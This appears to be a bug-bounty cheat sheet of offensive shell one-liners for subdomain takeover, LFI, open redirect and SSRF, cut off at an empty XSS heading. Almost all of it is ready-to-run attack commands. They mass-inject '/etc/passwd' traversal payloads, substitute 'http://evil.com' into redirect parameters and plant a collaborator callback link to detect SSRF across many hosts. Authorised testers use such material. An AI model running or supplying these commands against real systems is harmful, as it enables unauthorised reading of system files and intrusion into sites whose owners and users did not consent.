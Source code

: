 `ffuf -u https://FUZZ.target.com -w dns.txt -v | grep "| URL |" | awk '{print $4}'`

---

## 
<br/><br/>
## Subdomain Takeover:

`cat subs.txt | xargs  -P 50 -I % bash -c "dig % | grep CNAME" | awk '{print $1}' | sed 's/.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe`

---

## 
<br/><br/>
## LFI:

`cat hosts | gau |  gf lfi |  httpx  -paths lfi_wordlist.txt -threads 100 -random-agent -x GET,POST  -tech-detect -status-code  -follow-redirects -mc 200 -mr "root:[x*]:0:0:"`

`waybackurls target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'`

`cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n";done`

---

## 
<br/><br/>
## Open Redirect:

`waybackurls target.com | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I| grep "http://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done`

`cat subs.txt| waybackurls | gf redirect | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'`

---

## 

## SSRF:

`cat wayback.txt | gf ssrf | sort -u |anew | httpx | qsreplace 'burpcollaborator_link' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'`

`cat wayback.txt | grep "=" | qsreplace "burpcollaborator_link" >> ssrf.txt; ffuf -c -w ssrf.txt -u FUZZ`

---

## 
<br/><br/>
## XSS:
